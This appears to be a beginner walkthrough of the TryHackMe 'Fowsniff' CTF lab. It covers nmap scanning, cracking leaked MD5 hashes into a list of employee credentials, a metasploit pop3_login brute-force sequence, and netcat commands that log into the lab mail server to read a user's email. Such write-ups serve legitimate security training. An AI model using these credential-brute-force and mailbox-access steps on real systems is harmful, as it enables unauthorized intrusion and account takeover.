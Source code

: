 # [Fowsniff CTF](https://tryhackme.com/room/ctf)

## Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!

# Hack into the FowSniff organisation

### Using nmap, scan this machine. What ports are open?

### Using the information from the open ports. Look around. What can you find?

_nmap -A -p- -sV MACHINE_IP_

1. There are tcp ports open for:
   - ssh
   - http
   - pop3
   - imap

[SCREEN01]

---

### Using Google, can you find any public information about them?

_There is a pastebin with all of the company employees emails and hashes. If the pastebin is down, check out TheWayBackMachine, or https://github.com/berzerk0/Fowsniff_

1. All the pastebin I have found on [twitter](https://x.com/fowsniffcorp) are inactive. We are left with [github](https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt)

### Can you decode these md5 hashes? You can even use sites like [hashkiller](https://hashkiller.io/listmanager) to decode them

1. Decoded passwords are:
   - mauer@fowsniff:mailcall
   - mustikka@fowsniff:bilbo101
   - tegel@fowsniff:apples01
   - baksteen@fowsniff:skyler22
   - seina@fowsniff:scoobydoo2
   - stone@fowsniff:!!LILY!..\*7¡VA
   - mursten@fowsniff:carp4ever
   - parede@fowsniff:orlando12
   - sciana@fowsniff:07011972

### Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?

_In metasploit there is a packages called: auxiliary/scanner/pop3/pop3_login where you can enter all the usernames and passwords you found to brute force this machines pop3 service._

1. Put the usernames and passwords into separate files and use metasploit

```bash
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS IP
set USER_FILE /root/usernames.txt
set PASS_FILE /root/passwords.txt
run
```

### What was seina's password to the email service?

1. We have cracked it earlier. The password is `scoobydoo2`

### Can you connect to the pop3 service with her credentials? What email information can you gather?

### Looking through her emails, what was a temporary password set for her?

_Use netcat with the port 110 to view her emails. nc <ip> 110_

1. The temporary password is `S1ck3nBluff+secureshell`

```bash
nc 10.10.165.24 110
USER seina
PASS scoobydoo2
LIST
RETR 1
```

[SCREEN02]
